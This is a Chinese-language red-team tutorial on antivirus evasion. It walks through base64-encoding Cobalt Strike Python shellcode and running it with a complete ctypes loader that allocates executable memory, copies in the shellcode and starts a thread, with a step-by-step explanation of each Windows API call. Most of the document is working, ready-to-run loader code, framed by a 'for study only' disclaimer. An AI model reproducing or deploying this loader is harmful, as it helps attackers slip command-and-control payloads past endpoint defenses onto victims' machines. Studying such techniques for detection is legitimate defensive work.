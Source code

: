 # 免杀实验

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 加载器

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/免杀实验/2.png)

**加载器 + base64**

cs 生成 Python shellcode x64

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/免杀实验/1.png)

base64 加密 shellcode
```py
# coding=utf-8
import base64

shellcode = open('payload.py')
shellcode = shellcode.read()
s1=shellcode.find("\"")+1
s2=shellcode.rfind("\"")
shellcode= shellcode[s1:s2]

base64_shellcode = base64.b64encode(shellcode.encode('UTF-8'))
with open('base64.txt', 'wb') as shell:
    shell.write(base64_shellcode)
print(base64_shellcode)

```

添加到加载器,加载器的大致原理就是申请一块内存，将代码字节存入该内存，然后开始运行该内存储存的程序，并让该程序一直运行下去。
```py
import base64
import codecs
import ctypes

shellcode = ""
shellcode = base64.b64decode(shellcode)
shellcode = codecs.escape_decode(shellcode)[0]
shellcode = bytearray(shellcode)
# 设置VirtualAlloc返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
# 申请内存
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
# 放入shellcode
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buf,
    ctypes.c_int(len(shellcode))
)
# 创建一个线程从shellcode放置位置首地址开始执行
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.c_uint64(ptr),
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)
# 等待上面创建的线程运行完
ctypes.windll.kernel32.WaitForSingleObject(
    ctypes.c_int(handle),
    ctypes.c_int(-1)
)
```

- ctypes 库

    python 的 ctypes 模块是内建，用来调用系统动态链接库函数的模块

    使用 ctypes 库可以很方便地调用 C 语言的动态链接库，并可以向其传递参数。
    ```py
    import ctypes
    ```

- 读取shellcode

    将 shellcode 生成后，使用 base64 编码，后面操作是将代码写入内存，所以需要将代码解码并转为字节类型
    ```py
    shellcode = ""
    shellcode = base64.b64decode(shellcode)
    shellcode = codecs.escape_decode(shellcode)[0]
    shellcode = bytearray(shellcode)
    ```

- 设置返回类型

    我们需要用 VirtualAlloc 函数来申请内存，返回类型必须和系统位数相同

    想在 64 位系统上运行，必须使用 restype 函数设置 VirtualAlloc 返回类型为 ctypes.c_unit64，否则默认的是 32 位
    ```py
    ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
    ```

- 申请内存

    调用 VirtualAlloc 函数，来申请一块动态内存区域,VirtualAlloc 函数原型和参数如下：
    ```py
    LPVOID VirtualAlloc{
        LPVOID lpAddress,       # 要分配的内存区域的地址
        DWORD dwSize,           # 分配的大小
        DWORD flAllocationType, # 分配的类型
        DWORD flProtect         # 该内存的初始保护属性
    };
    ```

    申请一块内存可读可写可执行
    ```py
    ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
    # ctypes.c_int(0) 是 NULL，系统将会决定分配内存区域的位置，并且按 64KB 向上取整
    # ctypes.c_int(len(shellcode)) 以字节为单位分配或者保留多大区域
    # ctypes.c_int(0x3000) 是 MEM_COMMIT(0x1000) 和 MEM_RESERVE(0x2000) 类型的合并
    # ctypes.c_int(0x40) 是权限为 PAGE_EXECUTE_READWRITE 该区域可以执行代码，应用程序可以读写该区域。
    ```

- 将 shellcode 载入内存

    调用 RtlMoveMemory 函数，此函数从指定内存中复制内容至另一内存里。RtlMoveMemory 函数原型和参数如下:
    ```py
    RtlMoveMemory(Destination,Source,Length);
    Destination     # 指向移动目的地址的指针。
    Source          # 指向要复制的内存地址的指针。
    Length          # 指定要复制的字节数。
    ```

    从指定内存地址将内容复制到我们申请的内存中去，shellcode 字节多大就复制多大
    ```py
    buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
    ctypes.windll.kernel32.RtlMoveMemory(
        ctypes.c_uint64(ptr),
        buf,
        ctypes.c_int(len(shellcode))
    )
    ```

- 创建进程

    调用 CreateThread 将在主线程的基础上创建一个新线程, CreateThread 函数原型和参数如下：
    ```py
    HANDLE CreateThread(
        LPSECURITY_ATTRIBUTES lpThreadAttributes,   # 线程安全属性
        SIZE_T dwStackSize,                         # 置初始栈的大小，以字节为单位
        LPTHREAD_START_ROUTINE lpStartAddress,      # 指向线程函数的指针
        LPVOID lpParameter,                         # 向线程函数传递的参数
        DWORD dwCreationFlags,                      # 线程创建属性
        LPDWORD lpThreadId                          # 保存新线程的id
    )
    ```

    创建一个线程从 shellcode 放置位置开始执行
    ```py
    handle = ctypes.windll.kernel32.CreateThread(
        ctypes.c_int(0),
        ctypes.c_int(0),
        ctypes.c_uint64(ptr),
        ctypes.c_int(0),
        ctypes.c_int(0),
        ctypes.pointer(ctypes.c_int(0))
    )
    # lpThreadAttributes 为 NULL 使用默认安全性
    # dwStackSize 为 0，默认将使用与调用该函数的线程相同的栈空间大小
    # lpStartAddress 为 ctypes.c_uint64(ptr)，定位到申请的内存所在的位置
    # lpParameter 不需传递参数时为 NULL
    # dwCreationFlags 属性为 0，表示创建后立即激活
    # lpThreadId 为 ctypes.pointer(ctypes.c_int(0)) 不想返回线程 ID, 设置值为 NULL
    ```

- 等待线程结束

    调用 WaitForSingleObject 函数用来检测线程的状态, WaitForSingleObject 函数原型和参数如下：
    ```py
    DWORD WINAPI WaitForSingleObject(
        __in HANDLE hHandle,        # 对象句柄。可以指定一系列的对象
        __in DWORD dwMilliseconds   # 定时时间间隔
    );
    ```

    等待创建的线程运行结束
    ```py
    ctypes.windll.kernel32.WaitForSingleObject(
        ctypes.c_int(handle),
        ctypes.c_int(-1)
    )
    ```

    这里两个参数，一个是创建的线程，一个是等待时间
    - 当线程退出时会给出一个信号，函数收到后会结束程序。
    - 当时间设置为0或超过等待时间，程序也会结束，所以线程也会跟着结束。
    正常的话我们创建的线程是需要一直运行的，所以将时间设为负数，等待时间将成为无限等待，程序就不会结束。

---

**Source & Reference**
- [免杀 - shellcode简单混淆BypassAv](https://mp.weixin.qq.com/s/LkOmSNw7YgD7yfXkIrofHQ)
- [CS免杀-Shellcode Loader原理(python)](https://mp.weixin.qq.com/s/-WcEW1aznO2IuCezkCe9HQ)
- [CS免杀-环境和编码补充(python)](https://mp.weixin.qq.com/s/_uMFatf4_yfGit-Xu7Ml9A)
